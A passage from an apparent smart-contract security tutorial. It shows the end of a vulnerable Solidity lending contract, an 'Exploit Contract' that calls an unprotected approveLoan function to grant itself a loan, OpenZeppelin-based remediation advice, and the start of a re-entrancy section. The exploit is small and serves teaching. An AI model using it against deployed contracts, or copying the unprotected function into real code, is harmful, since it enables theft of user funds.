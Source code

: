 ```
        
        if(balance <= 1.0 ether){
            revert Middey__InsufficientFunds({
            _userAddress : LoanRequestaddress, 
            balance : balance
        });
        
        } 
        loanid++ ; // Get current LoanID and increment the counter
        LoanID[loanid] = LoanRequestaddress;
        emit emitLoanId(loanid, LoanRequestAmount);

    }
}
```
## Exploit Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {MiddyBank} from "../AccessControl.sol";

contract exploitAccessControl{
    MiddyBank public middyBank;
    constructor(address _target){
        middyBank = MiddyBank(_target);
    }

    // calls the function with missing access control

    function Callcontrol() external {
        middyBank.approveLoan(2, false, address(this), 2 ether);

    }
    
}

```
### Remediation
Majority of the smart contracts use OpenZeppelin’s Ownership library. Openzeppline’s Ownable defines modifiers like “onlyOwner” that check if the user making a function call is the owner of the contract. Other libraries also check if the user has privileges to call the function using modifiers/functions like “hasRole”.

## <font color="yellow">Re-Entrancy Attack <a id="Reentrancy"></a></font> 

### Description
*one major danger of calling external contracts is that they can take over the control flow as described thus: Let's say that contract A calls contract B.*
